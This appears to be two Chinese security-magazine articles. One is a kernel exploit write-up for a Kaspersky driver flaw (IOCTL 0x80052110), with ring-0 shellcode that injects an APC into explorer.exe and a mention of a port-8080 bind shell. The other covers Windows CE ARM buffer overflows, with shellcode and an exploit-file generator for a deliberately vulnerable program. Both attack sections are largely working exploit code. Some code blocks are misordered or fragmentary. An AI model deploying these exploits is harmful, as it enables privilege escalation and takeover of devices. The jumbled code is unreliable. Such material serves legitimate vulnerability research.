Kernel & Userland：386 及以上的 CPU 实现了 4 个特权级模式（Windows 只用到了其中两个），其中特权级 0（Ring0）是留给操作系统代码和设备驱动程序代码使用的，它们工作于系统核心态；而特权级 3（Ring3）则给普通的用户程序使用，它们工作在用户态。运行于处理器核心态的代码不受任何限制，可以自由地访问任何有效地址，进行直接端口访问。而运行于用户态的代码则要受到处理器的诸多检查，它们只能访问映射其地址空间的页表项中规定的在用户态下可访问页面的虚拟地址，且只能对任务状态段（TSS）中 I/O 许可位图（I/O Permission Bitmap）中规定的可访问端口进行直接访问（此时处理器状态和控制标志寄存器 EFLAGS 中的 IOPL 通常为 0，指明当前可以进行直接 I/O 的最低特权级别是 Ring0）。以上的讨论只限于保护模式操作系统，像 DOS 这种实模式操作系统则没有这些概念。

处理器模式从 Ring3 向 Ring0 的切换发生在控制权转移时，有以下两种情况：访问调用门的长转移指令 CALL，访问中断门或陷阱门的 INT 指令。具体的转移细节由于涉及复杂的保护检查和堆栈切换，这里不再赘述，请参阅相关资料。现代的操作系统通常使用中断门来提供系统服务，通过执行一条陷入指令来完成模式切换。在 Intel X86 上这条指令是 INT，在 Windows 9X 下是 INT30（保护模式回调），在 Linux 下是 INT80，在 Windows NT/2000 下是 INT2E。用户模式的服务程序（如系统 DLL）通过执行一个 INTXX 来请求系统服务，然后处理器模式将切换到核心态，工作于核心态的相应系统代码将服务于此次请求并将结果传给用户程序。

## NativeAPI

本机 API 是除了 Win32 API，NT 平台开放的另一个接口。本机 API 运行在 Ring0 层，拥有没有限制的操作权限，因此微软出于安全考虑并没有发布支持这种应用的开发方法。Win32 API 中的所有调用最终都转向了 ntdll.dll，再由它转发至 ntoskrnl.exe。ntdll.dll 是本机 API 用户模式的终端，真正的接口在 ntoskrnl.exe 里完成。事实上，内核模式的驱动大部分都在调用这个模块。ntdll.dll 的主要作用就是让内核函数的特定子集可以被用户模式下运行的程序调用。ntdll.dll 通过软件中断 int 2E 进入 ntoskrnl.exe，也就是通过中断门切换 CPU 特权级。

## Windows的APC机制

APC 是“异步过程调用（Asynchronous Procedure Call）”的缩写。从大体上说，Windows 的 APC 机制相当于 Linux 的 Signal 机制，实质上是一种对于应用软件（线程）的“软件中断”机制。但是读者将会看到，APC 机制至少在形式上与软件中断机制还是有相当的区别，而称之为“异步过程调用”确实更为贴切。APC 与系统调用是密切联系在一起的，在这个意义上 APC 是系统调用界面的一部分。然而 APC 又与设备驱动有着很密切的关系。例如，ntddk.h 中提供“写文件”系统调用 ZwWriteFile()，即 NtWriteFile() 的调用接口。

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwWriteFile(
  IN HANDLE FileHandle,
  IN HANDLE Event OPTIONAL,
  IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
  IN PVOID ApcContext OPTIONAL,
  OUT PIO_STATUS_BLOCK IoStatusBlock,
  IN PVOID Buffer,
  IN ULONG Length,
  IN PLARGE_INTEGER ByteOffset OPTIONAL,
  IN PULONG Key OPTIONAL
);
```

这里有个参数 ApcRoutine，是一个函数指针。什么时候要用到这个指针呢？原来，文件操作有“同步”和“异步”之分。普通的写文件操作是同步写，启动这种操作的线程在内核进行写文件操作期间被“阻塞（blocked）”而进入“睡眠”，直到设备驱动完成了操作以后才又将该线程“唤醒”而从系统调用返回。但是，如果目标文件是按异步操作打开的，则在通过 W32 的 API 函数 CreateFile() 打开目标文件时把调用参数 dwFlagsAndAttributes 设置成 FILE_FLAG_OVERLAPPED，那么调用者就不会被阻塞，而是把事情交给内核，不等实际的操作完成就返回了。但是此时要把 ApcRoutine 设置成指向某个 APC 函数。这样，当设备驱动完成实际的操作时，就会使调用者线程执行这个 APC 函数，就像是发生了一次中断。

#### 漏洞分析

漏洞出现在卡巴的 NDIS-TDI Hook 驱动（Klick.sys）中，该驱动在处理 `0x80052110` 号 IO 请求时未对参数进行足够的验证，导致非特权用户能够以 Ring0 权限执行任意代码。这种类似的漏洞已经暴露过不少，在定位问题代码的时候可以在 IDA 中直接以文本搜索 `80052110`，问题代码如下。

```asm
.text:00011740 mov [ebp+var_8], ebx
.text:00011743 jz loc_11988
.text:00011749 cmp eax, 80052108h
```

```asm
.text:0001174E jz loc_1195E
.text:00011754 cmp eax, 8005210Ch
.text:00011759 jz loc_1194A
.text:0001175F cmp eax, 80052110h
.text:00011764 jz loc_117F8
```

此处代码是驱动的 Dispatch 例程中对 IO 代码处理的一个 Switch Case 判断，看 `loc_117F8` 处的处理代码。

```asm
.text:000117F8 loc_117F8: ; CODE XREF: sub_1172A+3A12j
.text:000117F8 mov esi, [ebp+arg_4]
.text:000117FB cmp esi, ebx
.text:000117FD jz loc_119B0
.text:00011803 cmp [ebp+arg_8], 8
.text:00011807 jb loc_119B0
.text:0001180D mov eax, [ecx]
.text:0001180F push ebx
.text:00011810 call dword ptr [eax+14h]
.text:00011813 mov edi, eax
.text:00011815 cmp edi, ebx
.text:00011817 jz loc_1199F
.text:0001181D mov eax, [edi]
.text:0001181F mov ecx, edi
.text:00011821 call dword ptr [eax+4]
.text:00011824 push dword ptr [esi+4]
.text:00011827 mov ecx, edi
.text:00011829 push dword ptr [esi]
.text:0001182B call sub_15306
```

注意此时的 `[ebp+arg_4]`，也就是 esi 是第二个参数，指向用户提交的 lpInBuffer，请看 DeviceIoControl 的原型。

```c
BOOL DeviceIOControl(
  HANDLE hDevice,
  DWORD dwIoControlCode,
  LPVOID lpInBuffer,
  DWORD nInBufferSize,
  LPVOID lpOutBuffer,
  DWORD nOutBufferSize,
  LPDWORD lpBytesReturned,
  LPOVERLAPPED lpOverlapped
);
```

跟入 `sub_15306`。

```asm
.text:00015306 push ebp
.text:00015307 mov ebp, esp
.text:00015309 sub esp, 20h
.text:0001530C push ebx
.text:0001530D push esi
.text:0001530E push edi
.text:0001530F mov esi, ecx
.text:00015311 call sub_1555A
.text:00015316 mov ecx, [ebp+arg_4]
.text:00015319 lea edi, [esi+10h]
.text:0001531C mov [esi+1ECh], ecx
.text:00015322 push ecx
.text:00015323 lea ecx, [esi+1B8h]
```

```asm
.text:00015329 mov [esi+1F0h], eax
.text:0001532F mov [edi], eax
.text:00015331 mov eax, [ebp+arg_0]
.text:00015334 push ecx
.text:00015335 push edi
.text:00015336 mov [esi+1ACh], eax
.text:0001533C call eax
// 注意这一条语句，eax 指向用户提交的参数
```

00015331 处的语句将用户态下传进来的指针传到了 eax 寄存器，由于没有做任何参数的有效性检查，导致了可以执行任意代码。

## Exploit编写

现在剩下的就是执行什么代码的问题了，只要把函数指针通过 DeviceIoControl 传递给驱动即可。由于是 Ring0 权限，普通的 ShellCode 就不能使用了。这里介绍两种方案：

- 一种是所有功能都在内核态实现；
- 另一种是在内核态向用户态插入代码。

文中采用第二种思路，kernel 下的 ShellCode 作为 loader，将 Ring3 下的 ShellCode 插入到目标进程中。

```c
hDevice = CreateFile("\\\\.\\KLIFCK", 0, 0, NULL, 3, 0, 0);
InSize = 0x8;
InBuff[0] = (DWORD)Ring0Shellcode;
dwIOCTL = 0x80052110;
DeviceIoControl(hDevice, dwIOCTL, InBuff, 0x8, (LPVOID)NULL, 0, &junk, NULL);
```

可能有读者会问为什么 InBuff 的大小是 8。剩下就是编写 Ring0 ShellCode 的问题：主要完成将 Usermode 的 ShellCode 复制到目标进程、初始化并插入 APC、挂起相关线程等。用到的 API 包括 ExAllocatePool、KeInitializeApc、KeInsertQueueApc、ZwYieldExecution 和 KeDelayExecutionThread 等。

```c
void __declspec(naked) Ring0ShellCode()
{
    // 加入 naked 关键字是告诉编译器不要添加额外的栈处理
}
```

```asm
Ring0/提权攻击代码
__asm
{
    nop
    nop
    nop
    ...
    mov eax, fs:[0x124]      // TEB
    mov esi, [eax+0x44]      // EPROCESS
    mov eax, esi
search:
    mov eax, [eax+0x88]      // activeprocess
    sub eax, 0x88
    cmp dword ptr [eax+0x174], lpxe   // FileName explorer.exe
    jne search
    mov ebx, eax
    lea esi, usermodeShellCode
    mov ecx, 0x1d6
    mov dword ptr [edi], 0xffdf0800
    push edi
    mov edi, [edi]
    rep movsb
    ...
    push 0x30
    push 0
    mov eax, ExAllocatePool
    call eax
    ...
}
```

```c
mov eax, ZwYieldExecution // kernel routine ret
push eax // Kernel Mode routine
push edx // NULL
push ebp // 前面找到线程的 ETHREAD
push esi // APC object
mov eax, KeInitializeApc // initialize APC
call eax
xor ecx, ecx
xor edx, edx
xor eax, edx
push eax
push eax
push ebp // ETHREAD
push esi // APC Object
mov eax, KeInsertQueueApc
call eax
mov byte ptr [ebp+0x4a], 0x1
push offset DelayTime
push 0
push 0
mov eax, KeDelayExecutionThread
call eax
NOP
NOP
NOP
...
}
}
```

因为这个漏洞是本地溢出，所以获得上述用到的 API 要简单得多，可以通过在触发漏洞前在用户态下 LoadLibrary(ntkrnlpa) 获得函数偏移量与内核模块 ntkrnlpa 基址的方法获得。

```c
ExAllocatePool = (DWORD)GetProcAddress(base, "ExAllocatePool");
ExAllocatePool = (DWORD)((DWORD)ExAllocatePool - (DWORD)base + (DWORD)kbase);


```

内核模块 ntkrnlpa 的基址可以调用本机 API NtQuerySystemInformation 获得，也可以通过其他方法获得。如果是远程溢出则稍微麻烦一些，需要找到 ntkrnlpa 的基址并分析导出表来获取上述 API 函数地址。作者还提到变量类型与地址计算可能导致结果不准，需在 WinDBG 下调试；另外测试时需关闭 DEP（如图1所示）。

DEP 是数据执行保护，是 Windows XP SP2 之后推出的机制。文中提到某些地址段代码会被拦截，可通过 OpenProcess 与 VirtualAllocEx 申请内存来绕过 DEP。对于远程溢出会更复杂。运行示例后可观察到绑定 cmd 到 8080 端口的 shellcode 成功执行（如图2所示）。
#### 总结

这是作者第一次尝试编写内核 exploit，调试数日。文中总结了通过 kernel loader 执行 shellcode 的方式，认为是较方便的实现之一，可替换 POC 中 shellcode 实现自定义功能。作者还讨论了 Ring3 与 Ring0 安全研究关注度差异，并表示文章仓促、难免疏漏，欢迎指正。

### Windows CE 缓冲区溢出利用技术

译 / llkz
PDA 和手机的网络功能越来越强大，因此，与其相关的安全问题也就越来越得到重视。本文展示了一个 Windows CE 平台上的缓冲区溢出例子，包含了 ARM 体系、Windows CE 操作系统的内存管理、进程和线程的特点。同样，它也给我们展示了如何编写 Windows CE 平台上的 ShellCode，包括一些使用 ARM 处理器的 Windows CE 操作系统上解码 ShellCode 的知识。

#### Windows CE 概述

Windows CE 是 PDA 和手机上非常流行的嵌入式操作系统。正如其名，它是由微软开发的，因为有着相同的 API，Windows 平台开发者很容易为 Windows CE 开发应用程序。这是 Windows CE 能够流行的一个重要原因。Windows CE 5.0 是其最新的一个版本，但是 Windows CE .NET 却是非常实用的一个版本，本文基于 Windows CE .NET 平台编写。默认情况下，Windows CE 为 little-endian（低字节存储在低地址，高字节存储在高地址）模式，支持多处理器。

## ARM体系

ARM 处理器是 PDA 和手机上很流行的处理器芯片，为典型的精简指令集处理器，使用 load/store 体系，意即只有 load/store 指令才能够访问内存，数据处理操作只能在寄存器上使用。ARM 体系通常有 6 个主要的版本，分别为 v1 到 v6。ARM 处理器最高支持 7 种处理器模式，依据 ARM 体系版本而定，这些模式为用户模式、快中断模式、普通中断模式、管理模式、异常模式、未定义模式和系统模式。系统模式需要 ARM 体系 v4 以上版本支持。除了用户模式，其他模式都为特权模式。应用程序通常在用户模式下执行，但是在 Pocket PC 上，好像所有的应用程序都运行在内核模式，这个问题我们稍后讨论。在 ARM 体系 v3 及以上版本，有 30 个通用 32 位寄存器、程序计数器、当前程序状态寄存器和 5 个 SPSR。15 个通用寄存器只能在一个时刻可见，这取决于当前的处理器状态，可见的通用寄存器为 r0 到 r14。通常情况下，在 ARM 汇编语言中，r13 作为栈指针，在用户模式和系统模式下，r14 作为连接寄存器存储子程序调用的返回地址。如果返回地址保存在栈中，它也可以被用作通用寄存器。程序计数器通过 r15 来访问，在 ARM 指令集状态下，对于每一个指令，一次增加 4 个字节，在 thumb 状态下增加 2 个字节。分支指令将目标地址装载到程序计数器 PC 中，能够使用数据操作指令直接装载 PC 寄存器。这个特点不同于其他处理器，这对于编写 ShellCode 非常有用。

#### Windows CE 内存管理

理解内存管理对于缓冲区溢出利用非常重要。Windows CE 内存管理机制不同于其他系统，甚至也不同于 Windows 系统。Windows CE 使用只读存储器和随机存储器。只读存储器存储整个操作系统和捆绑在系统中的应用程序。只读存储器就像一个小型的只读硬盘，其中的数据不需要电源就能保持。XIP 是 Windows CE .NET 的一个新特性，它们直接在 ROM 中执行，而不是装载到 RAM 中执行。动态链接库代码不占用宝贵的 RAM 空间，在代码执行前不需要复制到 RAM，因此只需要花费很少的时间启动一个应用程序。如果动态链接库存储在目标存储物或 Flash 存储卡等不能在原来位置执行的空间，才会被复制到 RAM 中执行。Windows CE 系统中的 RAM 被划分为两个区域：程序内存和对象存储器。对象存储器就像持久虚拟 RAM 盘，和 PC 机上的 RAM 盘不同，对象存储器可以在系统关机的情况下保持存储文件。RAM 中的另一个区域被用来存储程序。程序内存就像个人电脑中的 RAM，为运行的应用程序存储堆栈。对象存储器和程序内存的边界是可以调整的，用户能够使用控制面板调整它们之间的界限。

Windows CE 是 32 位操作系统，支持 4GB 虚拟空间地址。其中高 2GB 为内核空间，操作系统用来存储自身数据，低 2GB 空间为用户空间，从 0x42000000 到 0x80000000 用于大内存分配，比如内存映像文件、对象存储器。从 0 到 0x42000000 被划分为 33 个 slot（槽），每个 slot 大小为 32MB。slot0 非常重要，用于当前运行的进程，其第一个 64KB 的空间被操作系统保留。进程代码和数据从 0x00010000 开始映射，其后为堆栈，动态链接库装载到高地址。

进程为它的每个线程分配栈空间，默认大小为 64KB，这取决于编译选项。高 2KB 被用来防止栈溢出，我们不能破坏这些内存，否则系统就会冻结。函数中声明的变量分配在栈中，当线程结束后，栈空间会被回收。

#### Windows CE 进程和线程

Windows CE 中对待进程不同于其他 Windows 操作系统，它限制任何时刻只能运行 32 个进程。当系统启动的时候，至少 4 个进程被创建：nk.exe，提供内核服务，常常装载到 slot97 中；filesys.exe，提供文件系统服务，常常装载到 slot2 中；device.exe，为系统装载和维护设备驱动，常常装载到 slot3 中；gwes.exe，提供 GUI（图像用户接口）支持，常常被装载到 slot4 中。其他进程随后启动，如 explorer。

Shell 是一个我们感兴趣的进程，因为它不仅仅在 ROM 中。shell.exe 是基于命令行的监视器，唯一装载它的方式是通过连接系统到 PC 机上的调试，文件自己从 PC 上下载。当使用 Plate builder 调试 Windows CE 时，shell.exe 会被装载到 slot。

Windows CE 下的线程跟其他 Windows 操作系统上的线程相似，每个进程至少有一个主线程与之关联，即使我们没有显式地创建。进程能够创建任意数目的附加线程，线程的数量仅仅受到可用内存的限制。

每个线程属于进程的一部分，共享相同的内存空间。但是，SetProcPermissions(-1) 可以使当前线程访问其他任何进程。每一个线程都有一个 id、一个堆栈和一系列寄存器。进程中线程的堆栈大小是通过编译应用程序的连接器设置的。Windows CE 中进程和线程的 id 为所对应进程和线程的句柄，这很有意思，我们编程的时候会发现它非常有用。

进程被装载时，系统会安排下一个可用 slot 装载需要的动态链接库，随后是程序的栈和默认进程堆，最后执行。

当进程的线程被调度，系统会复制它所在 slot 到 slot0，这并不是实际上复制操作，仅仅是被映射到 slot0。如果线程没有被激活，它会被映射回原来的 slot。内核、文件系统和窗口系统都运行在自己的 slot 中。

#### Windows CE API 搜索技术

我们在溢出前要有一个 Windows CE 下可运行的 ShellCode。Windows CE 为 Win32 兼容机，coredll 提供了很多基于 Windows CE 系统的 API（应用程序接口），所以每个进程都需要装载。coredll.dll 文件功用与 Win32 系统的 kernel32.dll 和 ntdll.dll 等文件相似。我们需要从 coredll.dll 中寻找有效 API 地址，然后用这些 API 地址去完成我们的 ShellCode。基于 Win32 的系统定位，最原始惯用的方法是通过 PEB 构造方法来查询 kernel32.dll 基地址，然后通过 PE 头文件来寻找 API 地址。

首先，我们必须寻找并定位 coredll.dll 的基地址。有基于 Windows CE 开发平台而类似于 PEB 的结构体吗？回答是肯定的。KDataStruct 是一个用于从用户模式通过利用 PUserKData 的固定地址可以访问的结构体，它保留系统的重要数据，比如模块链表、内核堆、SystemAPISets 等。KDataStruct 定义在 nkarm.h 中，其原型已随本文附件提供，大家可以参考。

在 ARM 处理器上，PUserKData 的值固定为 0xFFFFC800，在其他 CPU 上为 0x00005800。KDataStruct 的最后一个成员是 ainfo，它从 KDataStruct 结构体的源地址开始，为一个双字节数组，在索引 9（KINX_MODULES）中有个指向模块链表的指针，在 pkfuncs.h 这个头文件中有定义。所以，从 0x324 到 0xFFFFC800 是指向模块链表地址的指针。我随文提供了 Module 结构体的定义，并标注了成员的偏移地址，大家可用于参考理解本文。

Module 结构体在 kernel.h 这个头文件中被定义。模块结构体中的第三个成员是 lpszModName，它是模块名字字符串指针，从模块结构体的起始地址 +0x08 开始，模块名为双字节编码字符串。该模块中的第二个成员是 pMod，是指向下一模块链的地址。所以，我们能通过比较文件名代表的双字节编码字符串来定位 coredll 模块地址。Module 结构体起始地址从 0x74 开始，它有一个 e32 成员，是一个 e32_lite 结构体。我们再看一下 pehdr.h 头文件中的 e32_lite 结构体。在这其中，成员 e32_vbase 告知我们该模块的虚基址，它从 Module 结构体的 0x7c 开始。我们还需要注意成员 e32_unit[LITE_EXTRA]，它是信息结构数组。LITE_EXTRA 在 pehdr.h 头文件开头处定义到 6，只有前 6 个被 NK 使用。第一个为导出表的位置。所以 Module 结构体是从 0x8c 起始的地址，它是模块导出表的虚拟相关地址。现在，我们便获得了 coredll.dll 的虚拟基地址和它的模块导出表虚拟相关地址。我写了如下的小程序，用于列出所有的系统模块。

```cpp
AREA |.text|, CODE, ARM
EXPORT |SetProcessorMode|
|SetProcessorMode| PROC
mov r1, lr
msr cpsr_c, r0
mov pc, r1
END

// list.cpp
#include "stdafx.h"
extern "C" void __stdcall SetProcessorMode(DWORD pMode);

int WINAPI WinMain(...) {
  FILE *fp;
  unsigned int KDataStruct = 0xFFFFC800;
  void *Modules = NULL, *BaseAddress = NULL, *DllName = NULL;
  if ((fp = fopen("\\modules.txt", "w")) == NULL) return 1;
  Modules = *((void **)(KDataStruct + 0x324));
  while (Modules) {
    BaseAddress = *((void **)((unsigned char*)Modules + 0x7c));
    DllName = *((void **)((unsigned char*)Modules + 0x8));
    fprintf(fp, "%08X %s\n", BaseAddress, DllName);
    Modules = *((void **)((unsigned char*)Modules + 0x4));
  }
  fclose(fp);
  return EXIT_SUCCESS;
}
```

在我的环境中，内核空间模块结构体地址为 0x8F453128，大多 Pocket PC ROMs 建立在允许完全内核模式选项下，因此所有应用程序都运行在内核模式下。CPSR 的前 5 位为 0x1f，意味着 ARM 处理器工作在系统模式。这个值定义在 nkarm.h 中。

```c
// ARM processor modes
#define USER_MODE  0x10   // 0b10000
#define FIQ_MODE   0x11   // 0b10001
```

```c
#define IRQ_MODE    0x12   // 0b10010
#define SVC_MODE    0x13   // 0b10011
#define ABORT_MODE  0x17   // 0b10111
#define UNDEF_MODE  0x1b   // 0b11011
#define SYSTEM_MODE 0x1f   // 0b11111
```

我用汇编语言写了一个小函数切换处理器模式，因为 EVC 不支持行内汇编。当我将处理器模式切换到用户模式并没有得到基址和 DLLName，而是引起了一个访问非法异常。

我使用这个程序不切换处理器模式得到的 coredll.dll 的虚拟基址为 0x01F60000，但是当我用 EVC 跟进的时候，发现这是个无效的地址。我想可能 Windows CE 为了节省内存空间和时间，没有装载动态链接库文件头。

虽然我们没有得到 coredll.dll 的虚拟基地址和导出表位置的虚拟地址，但通过 IMAGE_EXPORT_DIRECTORY 结构体比较 API 名字，我们可以得到 API 地址。IMAGE_EXPORT_DIRECTORY 和其他 Win32 系统相似，定义在 winnt.h 中。

```c
// WINCE420\PUBLIC\COMMON\SDK\INC\winnt.h
typedef struct _IMAGE_EXPORT_DIRECTORY {
  DWORD Characteristics;
  DWORD TimeDateStamp;
  WORD  MajorVersion;
  WORD  MinorVersion;
  DWORD Name;
  DWORD Base;
  DWORD NumberOfFunctions;
  DWORD NumberOfNames;
  DWORD AddressOfFunctions;
  DWORD AddressOfNames;
  DWORD AddressOfNameOrdinals;
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

#### Windows CE 下的 ShellCode

在写 Windows CE 平台下的 ShellCode 之前，我们必须知道，它使用 r0~r3 作为 API 的头 4 个参数，如果 API 参数个数多于 4 个，则使用栈存储其他参数。因此写 ShellCode 的时候要小心，因为 ShellCode 就在栈中。下面的 test.asm 是我们的 ShellCode。

```asm
; armasm test.asm
; link /MACHINE:ARM /SUBSYSTEM:WINDOWSCE test.obj
CODE32
EXPORT WinMainCRTStartup
AREA .text, CODE, ARM
test_start
```

## ShellCode结构与API搜索

```asm
;r11 - base pointer
test_code_start PROC
bl get_export_section
mov r2, #4 ; functions number
bl find_func
sub sp, sp, #0x89, 30 ; weird after buffer overflow
add r0, sp, #8
str r0, [sp]
mov r3, #2

......省略，详见本文附件......
WinMainCRTStartup PROC
b test_code_start
ENDP
END
```

这个 ShellCode 结构分为 3 部分。

- 第一，它调用 `get_export_section` 函数获取 `coredll.dll` 的虚拟基地址和导出表位置的虚拟地址，`r0` 和 `r1` 分别存储它们。
- 第二，它调用 `find_func` 函数通过 `IMAGE_EXPORT_DIRECTORY` 结构体获取 API 地址，并存储 API 地址到自己的 hash 值地址。
- 最后一部分函数运行我们的 ShellCode，将 `HKLM\SOFTWARE\WIDCOMM\General\btconfig\StackMode` 键值设置成 1，然后使用 `KernelIoControl` 重启系统。

Windows CE .NET 提供了 `BtGetMode` 和 `BtSetMode` 获取/设置蓝牙状态，但是 IPAQ OS 使用 Widcomm，有自己的 API，因此 `BtSetMode` 不能够在 IPAQ 上启动蓝牙；但是在 IPAQ 上有其他方法开启蓝牙，将 `HKLM\SOFTWARE\WIDCOMM\General\btconfig\StackMode` 键值设置为 1，然后重启 PDA 即可。

我们再来看看 `get_export_section` 函数的功能。为什么我要注释掉 `ldr r4, =0xffffc800` 指令呢？我们必须清楚，ARM 汇编语言 LDR 伪指令能够装载 32 位常数和地址。`ldr r4, =0xffffc800` 语句在 EVC debugger 中会成为 `ldr r4, [pc, #0x108]` 指令，而 r4 寄存器依赖于程序，因此 r4 寄存器不能在 ShellCode 中存放 `0xffffc800`，否则 ShellCode 不会成功。指令 `ldr r5, =0x324` 也相似，在 EVC debugger 中会成为 `mov r5, #0xC9, 30`，但不影响 ShellCode 的运行。

简单的解决方案是在 ShellCode 中向内存写入常数值，接着使用 ADR 伪指令装载它们的地址，然后再将它们从内存装载到寄存器中。

为了节省空间，我们可以使用 hash 技术编码 API 名字，每个 API 名字编码成 4 字节。hash 技术来自 LSD 的 Win32 汇编模块，编译方法如下：

```text
armasm test.asm
link /MACHINE:ARM /SUBSYSTEM:WINDOWSCE test.obj
```

这要求你必须安装 EVC 开发环境，但可以从 EVC Debugger 或者 IDA Pro 获取必要的操作码。

#### 系统调用

我们先看看 `coredll.dll` 中 API 函数的实施过程。

```asm
.text:01F75040 EXPORT PowerOffSystem
.text:01F75040 PowerOffSystem
; CODE XREF: SetSystemPowerState+58 p
.text:01F75040 STMFD SP!, {R4,R5,LR}
.text:01F75044 LDR   R5, =0xFFFFC800
.text:01F75048 LDR   R4, =unk_1FC6760
.text:01F7504C LDR   R0, [R5] ; UtlsPtr
.text:01F75050 LDR   R1, [R0,#-0x14] ; KTHRDINFO
.text:01F75054 TST   R1, #1
.text:01F75058 LDRNE R0, [R4]
...
.text:01F75090 LDMFD SP!, {R4,R5,PC}
```

我们可以发现，系统会首先检查 `KTHRDINFO`，这个值在 `MDCreateMainThread2` 函数中被初始化。

```c
PRIVATE\WINCEOS\COREDOS\NK\KERNEL\ARM\mdarm.c
......
if (kmode || bAllKMode) {
    pTh->ctx.Psr = KERNEL_MODE;
    KTHRDINFO(pTh) |= UTLS_INKMODE;
} else {
    pTh->ctx.Psr = USER_MODE;
    KTHRDINFO(pTh) &= ~UTLS_INKMODE;
}
......
```

如果应用程序运行在内核模式，这个值被设置为 1，否则为 0。Pocket PC 的所有应用程序都运行在内核模式。在我的环境中，`R0=0x8004B138`，为 `SystemAPISets[SH_WIN32]` 中 `ppfnMethods` 指针，随后指令为 `LDRNE R1, [R0,#0x13C]`。接下来我们再看看偏移 `0x13C`，它对应 `Win32Methods` 的索引：

```c
const PFNVOID Win32Methods[] = {
    ......(PFNVOID)SC_PowerOffSystem, //79
    ......
};
```

`r1` 中得到内核中 `SC_PowerOffSystem` 函数的地址，应用程序在内核运行，`LDREQ R1, =0xF000FEC4` 将不起作用。`0xF000FEC4` 为用户模式系统调用地址，一些 API 会直接使用系统调用，如 `SetKMode`。

```c
int nCmdShow)
{
    ((void (*)(void)) &shellcode)();
    return 0;
}
```

下面介绍 Windows CE 缓冲区溢出利用。假设 `hello.cpp` 为存在问题的程序，其代码如下。

```asm
.text:01F756C0 EXPORT SetKMode
.text:01F756C0 SetKMode
.text:01F756C0
.text:01F756C0 var_4 = -4
.text:01F756C0
.text:01F756C0 STR LR, [SP,#var_4]
.text:01F756C4 LDR R1, =0xF000FE50
.text:01F756C8 MOV LR, PC
.text:01F756CC MOV PC, R1
.text:01F756D0 LDMFD SP!, {PC}
```

```cpp
// hello.cpp
#include "stdafx.h"
int hello()
{
    FILE * binFileH;
    char binFile[] = "\\binfile";
    char buf[512];
    if ((binFileH = fopen(binFile, "rb")) == NULL)
    {
        printf("can't open file %s\n", binFile);
        return 1;
    }

    memset(buf, 0, sizeof(buf));
    fread(buf, sizeof(char), 1024, binFileH);
    printf("%08x %d\n", &buf, strlen(buf));
    getchar();
    fclose(binFileH);
    return 0;
}

int WINAPI WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpCmdLine,
    int nCmdShow)
{
    hello();
    return 0;
}
```

Windows CE 不使用 ARM 软中断进行系统调用，而是使用其他的方法。`0xF0000000~0xF0010000` 的系统调用地址是无效的，这会引起 prefetch-abort trap。prefetch-abort trap 首先检查无效地址，如在 trap 区域则使用 `ObjectCall` 定位系统调用，然后执行，否则调用 `ProcessPrefAbort` 处理异常。

计算系统调用地址的公式为 `0xF0010000 - (256*apiset+apinr)*4`。

API 句柄定义在 `PUBLIC\COMMON\SDK\INC\kfuncs.h` 和 `PUBLIC\COMMON\OAK\INC\psyscall.h` 中，而 `apinr` 定义在几个文件中，比如 `SH_WIN32` 定义在 `PRIVATE\WINCEOS\COREOS\NK\KERNEL\kwin32.h` 中。

我们现在计算 `KernelIoControl` 的系统调用。`apiset` 为 0，`apinr` 为 99，因此系统调用为 `0xF0010000-(256*0+99)*4=0xF000FE74`，然后 ShellCode 通过系统调用实施。它能够很好地工作，并且不需要搜索 API 地址。

```c
#include "stdafx.h"
int shellcode[] =
{
    0xE59F0014, // ldr r0, [pc, #20]
    0xE59F4014, // ldr r4, [pc, #20]
    0xE3A01000, // mov r1, #0
    0xE3A02000, // mov r2, #0
    0xE3A03000, // mov r3, #0
    0xE1A0E00F, // mov lr, pc
    0xE1A0F004, // mov pc, r4
    0x0101003C, // IOCTL_HAL_REBOOT
    0xF000FE74, // trap address of KernelIoControl
};

int WINAPI WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpCmdLine,
    ...)
```

`hello` 函数存在缓冲区溢出问题，它从 `binfile` 通过 `fread()` 读取数据到栈变量 `buf`。因为读取 1KB 数据复制到 512 字节的 `buf` 变量，故会引起缓冲区溢出。`printf()` 和 `getchar()` 函数用于测试，如果 Windows 目录下没有 `console.dll`，它们就不会起作用。ARM 汇编语言使用 `bl` 指令调用函数。

`str lr, [sp, #-4]!` 为 `hello` 函数的第一条指令，它将 `lr` 寄存器值存入堆栈，`lr` 保存着 `hello` 函数的返回地址。第二条指令为变量预分配栈空间。`ldmia sp!, {pc}` 为 `hello` 函数的最后一条指令，它将存储在栈中的返回地址装载到 PC 中，之后程序会返回 `WinMain` 函数。因此，通过覆盖栈中存储的 `lr` 寄存器的值，我们可以控制 `hello` 函数的返回地址。

给程序分配的变量的内存地址对应于程序所装载的 slot，堆栈也是如此。每次启动的时候，进程可能会装载到不同的 slot，因此基地址经常会改变。另外，slot0 是当前进程 slot 映射过来的，因此它的栈的基地址是不变的。以下为 hello 程序的溢出程序：

```c
#include <stdio.h>
#define NOP 0xE1A01001   /* mov r1, r1 */
#define LR  0x0002FC50   /* return address */

int shellcode[] =
{
    0xEB000026,
    ......
    0x0000006C,
};

/* prints a long to a string */
char* put_long(char* ptr, long value)
{
    *ptr++ = (char)(value >> 0) & 0xff;
    *ptr++ = (char)(value >> 8) & 0xff;
    *ptr++ = (char)(value >> 16) & 0xff;
    *ptr++ = (char)(value >> 24) & 0xff;
    return ptr;
}

int main()
{
    FILE *binFileH;
    char binFile[] = "binfile";
    char buf[544];
    char *ptr;
    int i;

    if ((binFileH = fopen(binFile, "wb")) == NULL)
    {
        printf("can't create file %s!\n", binFile);
        return 1;
    }

    memset(buf, 0, sizeof(buf)-1);
    ptr = buf;
    for (i = 0; i < 4; i++) {
        ptr = put_long(ptr, NOP);
    }
    memcpy(buf+16, shellcode, sizeof(shellcode));
    put_long(ptr-16+540, LR);
    fwrite(buf, sizeof(char), 544, binFileH);
    fclose(binFileH);
}
```

我们选择 slot0 的栈地址，指向我们的 ShellCode，它会覆盖栈中存储的返回地址。我们同样可以使用一条虚拟地址空间中的跳转指令代替，这个溢出利用程序生成一个 `binfile` 文件，会溢出 `buf` 变量并且覆盖返回地址。当 `binfile` 复制到 PDA 中，hello 程序执行后，PDA 会重启并打开蓝牙功能，这意味着我们的 ShellCode 得到了执行。另一个构造溢出字符串的方法如下：

`pad...pad|return address|nop...nop...shellcode`

